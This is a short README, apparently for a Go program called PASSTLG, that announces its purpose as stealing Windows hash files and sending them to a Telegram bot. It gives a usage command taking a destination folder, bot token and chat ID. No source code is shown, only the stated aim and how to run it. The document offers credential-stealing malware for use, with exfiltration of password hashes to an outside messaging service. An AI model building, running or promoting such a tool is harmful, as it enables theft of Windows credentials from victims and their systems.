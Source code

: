 # PASSTLG
STEAL WINDOWS HASH FILES AND SEND TO TELEGRAM ON GOLANG


# USAGE

Usage Example

To run this program from the command line, you would use:
```
./passtlg -destination "C:\your\destination" -token "your_bot_token" -chatid "your_chat_id"
```
